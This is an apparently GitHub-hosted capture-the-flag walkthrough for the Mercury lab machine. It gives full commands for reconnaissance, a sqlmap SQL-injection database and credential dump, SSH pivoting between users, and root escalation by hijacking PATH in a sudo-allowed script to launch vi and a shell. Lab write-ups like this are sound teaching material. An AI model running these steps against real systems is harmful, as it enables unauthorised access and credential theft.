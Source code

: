 # Mercury Machine Walkthrough

**Machine Type**: Linux
**Solved by**: Akshat Nigam
**Category**: Web, Enumeration, Exploitation, Privilege Escalation
**Difficulty**: Medium
**Attack Surface**: HTTP, SQL Injection, SSH, Sudo Misconfiguration

---

## 🔍 Find the Vulnerable Machine IP

Run the following command to identify devices in your network:

```bash
netdiscover
```

> Target IP identified: `192.168.10.199`

---

## 🔎 Port Scanning with Nmap

Run the command:

```bash
nmap -sV 192.168.10.199
```

> Open Ports: `22/tcp` (SSH) and `8080/tcp` (HTTP)

---

## 🌐 Explore HTTP Service

Open the browser:

```
http://192.168.10.199:8080
```

> Page says “under development”.

---

## 📁 Directory Enumeration with Dirb

```bash
dirb http://192.168.10.199:8080/
```

> Discovered: `/robots.txt`

Visit:

```
http://192.168.10.199:8080/robots.txt
```

> Not useful. Try manual fuzzing.

Try:

```
http://192.168.10.199:8080/admin
```

> Shows Debug mode and useful error messages.

---

## 🚀 Mercury Facts Endpoint Discovery

Visit:

```
http://192.168.10.199:8080/mercuryfacts/1
http://192.168.10.199:8080/mercuryfacts/2
```

Try fuzzing with:

```
http://192.168.10.199:8080/mercuryfacts/1'
```

> SQL error returned ➝ Possible SQL Injection

---

## 🛡️ SQL Injection using SQLMap

Basic scan:

```bash
sqlmap -u http://192.168.10.199:8080/mercuryfacts/1
```

Dump entire database:

```bash
sqlmap -u http://192.168.10.199:8080/mercuryfacts/1 --dump-all
```

> `mercury` database dumped
> Retrieved credentials for `webmaster` and other users

---

## 🔐 SSH Login

Use SSH to connect:

```bash
ssh webmaster@192.168.10.199
```

> Successful login ➝ Explore system

---

## 🔎 Privilege Escalation (User Enumeration)

Try:

```bash
sudo -l
```

> webmaster is not a sudoer

Check files:

```bash
ls mercury_proj
cat notes.txt
```

> Found base64 encoded password for `linuxmaster`

Decode password:

```bash
echo 'encodedpw' | base64 --decode
```

Login with new user:

```bash
ssh linuxmaster@192.168.10.199
```

> Logged in successfully

---

## 🔓 Root Privilege Escalation via Sudo

Check sudo permissions:

```bash
sudo -l
```

> Allowed command: `/usr/bin/check_syslog.sh`

Read file:

```bash
cat /usr/bin/check_syslog.sh
```

> It’s a Bash script, not writable

---

## 🔧 Exploit PATH Manipulation

Run the following:

```bash
ln -s /bin/vi tail
export PATH=.:$PATH
sudo --preserve-env=PATH /usr/bin/check_syslog.sh
```

Then inside `vi`, type:

```
:!/bin/sh
```

> Spawned root shell ✅

---

## 🏁 Capture the Flags

```bash
cat /root/root_flag
cat ~/user_flag
```

> 🎉 Congratulations! You’ve rooted the Mercury box.

---

